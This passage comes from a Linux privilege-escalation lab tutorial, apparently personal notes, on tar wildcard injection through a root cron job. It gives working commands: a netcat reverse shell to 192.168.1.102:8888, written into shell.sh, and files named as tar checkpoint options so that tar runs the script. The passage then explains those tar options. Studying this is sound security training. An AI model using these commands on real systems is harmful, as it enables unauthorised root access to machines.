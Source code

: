 
**Now paste the above-copied payload as described below and ran the following commands inside the victim’s tty shell.**
```shell
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

![[linux_privesc36.png]]
- The above commands help the tar command to run the file shell.sh after the first file is archived.
- Since the tar command is running as root due to crontab, this has the effect of spawning a netcat shell and sending it to the attack platform on port 8888.

**And if you go back to the terminal window where the listener was on, you will have victim’s reverse connection in after 1 minute.**
```shell
id
whoami
```

##### Conceptual Information:

   If you have ever explored tar to read its optional switches then you will find the following option.

   1. **–checkpoint=[`NUMBER`]**
	- This option is used to control how often progress messages are displayed while `tar` is working.
	- It has an optional `NUMBER` parameter, but if you don't provide it, the default value is 10.
	- So, it's like telling `tar` to provide updates on its progress every `NUMBER` records/files it processes.
	- These progress messages help you track how far along the `tar` operation is and how many files have been processed.

   2. **--checkpoint-action=ACTION**
	- This option allows you to specify an `ACTION` that `tar` should perform every time it reaches a checkpoint (as determined by the `--checkpoint` option).
	- You can define various actions that `tar` should take when it reaches a checkpoint, like running a custom script or performing some task.
	- This is useful for executing specific actions or scripts at different stages of a `tar` operation, providing more control over the process.


There is a ‘–checkpoint-action’ option, that will specify the program which will be executed when the checkpoint is reached. Mainly, this permits us to run an arbitrary command. 

Hence Options ‘–checkpoint=1’ and ‘–checkpoint-action=exec=sh shell.sh’ are handed to the ‘tar’ program as command-line options.
![[linux_privesc37.png]]

### Post Exploitation via tar (Phase II)
**Lab Setup**
   - In this phase, with the help of tar, we are going to take a compress backup of a directory.
   - For example, make a new directory whose backup you wish to take and give ALL permission to it and then create some files.
```shell
cd /tmp
mkdir data
chmod 777 data
cd data
echo "" > f1
echo "" > f2
echo "" > f3
ls
```